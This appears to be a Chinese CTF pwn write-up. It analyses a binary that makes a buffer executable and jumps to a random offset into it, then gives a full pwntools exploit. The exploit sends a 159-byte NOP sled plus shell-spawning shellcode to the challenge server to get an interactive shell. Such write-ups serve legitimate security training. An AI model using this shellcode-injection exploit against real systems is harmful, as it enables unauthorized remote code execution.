




- 题目内容：
    

- ida分析附件main函数：
    
    main 函数的执行流程可梳理为：首先调用 puts 输出提示字符串；接着调用 mprotect 函数，将 buf 所在内存区域的首个内存页（大小为 0x1000 即 4096 字节）设置为 7（可读、可写、可执行）权限；随后通过 read 函数从标准输入读取 256 字节数据，并将其存入 buf 缓冲区；之后执行一个无实际业务意义的空循环（循环变量 i 从 0 遍历到 256，无任何操作）；再调用 get_random_number 函数并将其返回值赋值给 v4；最后计算内存地址：以 buf 的起始地址为基准，加上 v4 对 80 取模的结果，再加上 80，将最终得到的这个地址当作函数指针调用执行

- 分析get_random_number函数：
    
    同样我已对该函数内调用的函数进行了重命名，`v5 = __readfsqword(0x28u);`以及后续的`if ( v5 != __readfsqword(0x28u)) ...`是canary保护，用于判断栈是否被溢出从而篡改了其他地址的函数，中间通过`open`函数获取到了一个随机数字，范围就是0~255，进入了判断语句，如果成功获取到了随机值，那就加1然后作为返回值进行返回，所以最终返回到main函数的值的范围就是1~256

    所以`v4 % 80 + 80`的值的范围就是80~159，所以不管随机数是哪一个，只要把shellcode设置到160位之后，然后一定就会执行到，所以前面159个都可以用空指令（\x90）填充，这样前159就什么都不做，然后从160开始填充shellcode，然后最终总会执行到shellcode实现shell

- EXP：
    ```python
    from pwn import *
    import sys

    context.arch = 'amd64'
    context.log_level = 'info'

    shellcode = asm(shellcraft.sh())


    payload = b'\x90' * 159 + shellcode
    payload = payload.ljust(256, b'\x90')


    while 1 == 1:
        # p = process("./pwn")
        p = remote("nc1.ctfplus.cn", 18290)
        p.recvline()
        p.send(payload)
            
        p.interactive()
        break
    ```
    